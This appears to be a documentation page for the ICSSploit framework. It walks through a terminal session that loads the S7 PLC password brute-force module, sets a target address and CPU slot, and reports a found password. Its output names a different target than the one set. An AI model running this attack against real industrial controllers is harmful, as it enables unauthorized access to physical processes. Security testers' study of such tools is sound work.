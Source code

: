 # S7 Bruteforece

# Use S7 bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
               https://github.com/reverse-shell/routersploit
    Dev Team : wenzhe zhu(dark-lbp)
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 14
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search bruteforce
    creds/ftp_bruteforce
    creds/http_basic_bruteforce
    creds/http_digest_bruteforce
    creds/http_form_bruteforce
    creds/s7_bruteforce
    creds/snmp_bruteforce
    creds/ssh_bruteforce
    creds/telnet_bruteforce
    isf > use creds/s7_bruteforce

    
# set options
    isf (S7 300/400 PLC Password Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name                Current settings                                                                                Description
       ----                ----------------                                                                                -----------
       slot                2                                                                                               CPU slot number.
       threads             3                                                                                               Number of threads
       stop_on_success     yes                                                                                             Stop on first valid community string
       verbose             0                                                                                               Verbose scapy output. 1: display, 0: hide
       password            file:///root/Desktop/temp/isf/icssploit/wordlists/passwords.txt                                 password string or file with community strings (file://)
       rack                0                                                                                               CPU rack number.

    isf (S7 300/400 PLC Password Bruteforce) > set target 192.168.1.10
    [+] {'target': '192.168.1.10'}
    # set target slot
    isf (S7 300/400 PLC Password Bruteforce) > set slot 3
    [+] {'slot': '3'}

# run module
    isf (S7 300/400 PLC Password Bruteforce) > run
    [*] Running module...
    [*] Elapsed time:  11.8677530289 seconds
    [+] Credentials found!
    
       Target             Port     password
       ------             ----     --------
       192.168.70.210     102      password
    isf (S7 300/400 PLC Password Bruteforce) >
